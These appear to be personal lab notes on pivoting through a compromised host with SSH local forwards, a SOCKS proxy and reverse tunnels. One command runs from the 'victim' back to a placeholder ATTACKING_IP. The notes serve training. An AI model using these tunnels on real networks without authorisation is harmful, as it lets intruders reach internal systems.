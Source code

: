 # networking gymnastics

the art of slipping through a port and out another in fancy ways

## ssh tunnel

we have SSH access to 172.16.0.5, and there is a web server on 172.16.0.10. Run this on AttackBox:

```bash
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

* `-L` means to create a link to a **L**ocal port.
* `-f` means to background shell immediately
* `-N` means to not run any commands

After this is set up, you can access 172.16.0.10's website by opening up localhost:8000 on AttackBox's browser

## ssh proxying

```bash
ssh -D 1337 user@172.16.0.5 -fN
```

* `-D` means to open up port 1337 on AttackBox's machine, and whatever it receives on that port will be sent to the 172.16.0.0/24 network
* i think

## reverse connections

generate new set of SSH keys on victim

```bash
ssh-keygen
```

copy the .pub file and paste them to your AttackBox like so:

```bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <ssh-public-key>
```

enable ssh

run this

```bash
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

* `-R` - create link to Remote port

example:

```bash
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

